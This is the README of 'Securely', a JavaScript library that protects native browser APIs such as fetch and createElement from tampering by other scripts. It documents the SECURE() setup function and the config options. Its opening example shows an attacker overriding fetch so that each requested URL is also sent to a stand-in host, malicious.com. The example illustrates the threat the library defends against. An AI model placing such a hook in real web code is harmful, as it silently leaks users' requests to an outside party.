 # Securely

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app.
You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

`@window` - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)

`@config` - an object indicating the native APIs you wish to have access to

`@returns` - a function that is the only key to enable access to the natives you wished to secure

The simple ones are objects:

```javascript
const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```
